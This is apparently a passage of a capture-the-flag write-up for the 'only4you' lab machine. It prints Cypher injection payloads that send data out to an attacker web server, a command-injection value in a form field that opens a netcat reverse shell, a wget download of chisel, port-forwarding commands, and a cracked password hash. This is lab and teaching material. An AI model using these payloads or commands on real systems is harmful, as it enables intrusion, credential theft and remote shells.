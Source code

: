 ``` ' OR 1=1 WITH 1 as a CALL dbms.components() YIELD name, versions, edition UNWIND versions as version LOAD CSV FROM 'http://10.10.14.26:8000/?version=' + version + '&name=' + name + '&edition=' + edition as l RETURN 0 as _0 // ```
As it can be seen in the previous picture, password hash for user “John” is recovered. Using and online tool (https://hashes.com/en/tools/hash_identifier), a new password is found “ThisIs4You”.

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/8b281276-88a8-49d1-9096-a7c29235ca43)

As with every new credentials, I try to access via ssh to the machine using them.

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/ecbc63ba-91a3-49ff-9def-558764ae3c45)

## Initial Access – LFI+RCE+Cipher Injection

**Vulnerability Explanation**: Present subdomain is vulnerable to LFI, which lets the attacker to leak the main domain application source code. Reviewing this code, a Command Injection point is found which allows RCE and thus, to open a reverse shell. Through this shell, port forwarding allows access to a local hosted app login page, where default credentials are tested gaining access using “admin:admin”. This locally hosted application is vulnerable to Cipher Injection attacks and is possible to extract hashed passwords for ssh user John.

**Vulnerability Fix**: Sanitizing user input to avoid LFI, and command injection. Avoid using global-ly known default credentials as “admin:admin”.

**Severity**: Critical.

**Steps to reproduce the attack**: The steps followed for discovering the entry path are explained above, here, I will only show the injections used to obtain the info that let the attacker open and ssh shell as local user john.

•	Setup a listening port (444) and send HTTP post Request to http://only4you.htb with following params:
          
    o	name=randomString
          
    o	email=inf@random|rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.14.26+444+>/tmp/f 
          
    o	subject=randomString 
          
    o	message=randomString

•	Download chisel on the victim with: ``` wget http;//10.10.14.26:8000/chisel ```

•	Port forwarding to access local web app on port 8001 with
          
    o	On attacking machine: ./chisel server -p 8888 –reverse 
          
    o	On victim: ./chisel client attacking-ip:8888 R:8989:localhost:8001
      
•	Access http://localhost:8989 and login with default credentials “admin:admin”
      
•	Setup a Python Simple HTTP Server (listening on port 8000) on attacking machine using: ``` python -m http.server ```
      
•	On the search panel, introduce the following Cypher Query: ``` ' OR 1=1 WITH 1 as a MATCH (u:user) UNWIND keys(u) as result LOAD CSV FROM 'http://10.10.14.26:8000/?u=' + result +'='+toString(u[result]) as l RETURN 0 as _0 // ```

•	Break the obtained SHA256 hash (“a85e870c05825afeac63215d5e845aa7f3088cd15359ea88fa4061c6411c55f6”) for user’s john password (“ThisIs4You”)

•	Access via SSH as “john”.

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/39bfaeac-dc87-424e-ab9d-f27b99f2a278)

```